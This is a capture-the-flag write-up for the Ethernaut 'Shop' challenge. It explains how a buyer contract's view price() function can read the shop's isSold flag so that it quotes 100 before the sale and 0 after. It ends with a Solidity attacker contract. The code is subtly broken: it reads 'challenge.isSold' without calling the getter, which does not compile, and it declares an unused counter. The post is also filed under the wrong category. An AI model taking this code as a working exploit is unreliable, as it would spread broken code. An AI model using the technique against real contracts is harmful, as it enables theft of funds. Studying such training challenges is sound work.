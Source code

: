 ```yaml
---
layout: post
title:  Ethernaut - Shop
categories: [pwnable.kr]
excerpt: Writeup for Shop.
---
```

# Ethernaut - Shop

This uses `cmichel`'s Ethernaut solutions repo as a template, hence the similarities.

# Initial insights

The flow of the program is, importantly:
* Call `_buyer.price()`
* `isSold = true`
* set `price = _buyer.price()`

# Defining the Attack Surface

We have the constraint that `price()` must have `view` visibility, so we can't change the state of whatever the `Buyer` is.

But, we can, however, look at the state of other things no problem!
Importantly, `isSold` is initialized to `0` which is `false`, we flip `isSold` after calling `price()` initially, and then we call `price()` again.
So, we can abuse this and make the value of `price()` depend on `isSold`!

# The exploit

```solidity
pragma solidity ^0.7.3;

abstract contract IShop {
    uint public price;
    bool public isSold;
    function buy() external virtual;
}

contract ShopAttacker {
    IShop public challenge;
    uint256 timesCalled = 1;

    constructor(address challengeAddress) {
        challenge = IShop(challengeAddress);
    }

    function attack() public {
        challenge.buy();
    }

    function price() external view returns (uint256) {
        return challenge.isSold ? 0 : 100;
    }
}
```
